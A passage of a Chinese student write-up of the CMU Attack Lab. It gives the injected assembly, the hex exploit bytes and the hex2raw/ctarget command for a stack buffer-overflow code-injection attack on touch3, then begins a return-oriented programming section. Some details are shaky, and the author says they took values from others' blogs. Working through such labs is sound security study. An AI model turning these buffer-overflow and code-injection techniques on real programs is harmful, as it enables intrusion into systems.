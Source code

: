```cpp
40190b mov 0x202bd3(%rip), %edi
401911 call 40184c <hexmatch>
需要调用touch3 使参数值等于 cookie 
而cookie值是 %(0x202bd3+0x401911)
由于gdb无法正常使用，具体值只能参考别人的博客了
插入的代码如下

movq 0x5561dca8, %rdi
pushq 0x4018fa
retq

对上面三行代码的解释：
0x5561dca8:getbuf函数使用的栈空间之前八个字节的起始地址
赋值给rdi会改变touch3函数的参数 sval指针的值
随后会将cookie值放入指针指向的地址

pushq 0x4018fa
ret
这两条语句会使movq指令执行完毕之后跳转到0x4018fa处继续执行指令
也就是转而执行touch3函数

48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
前两行是上面的三行汇编代码的十六进制表示，是注入的要执行的代码
第六行的作用是改变getbuf函数的返回地址
其返回到了栈空间，也就是我们注入的代码
movq 0x5561dca8, %rdi处

第七行的地址正是0x5561dca8 值是cookie的值
cookie的字符串值是 "0x59b997fa"
这在lab文件cookie.txt中有，但是好像没有信息明确指明它是用于此处的
此外用gdb应该也能查看cookie值(因为知道地址)但是我gdb用不了

将上面的十六进制数存为level3.txt然后
cat level3.txt | ./hex2raw | ./ctarget -q
```

# 面向返回的编程
先 objdump -d rtarget > rtarget.asm
生成可阅读的汇编代码

对rtarget使用代码注入攻击比对ctarget使用代码注入攻击难得多，因为它(rtarget)使用两种技术来阻止这种攻击

1. 它使用随机化，每次运行的堆栈位置不同，这使得无法确定注入代码的位置

2. 它将保存堆栈的内存部分标记为不可执行，因此即使将程序计数器设置为注入代码的开头，程序也会因为分段错误而失败
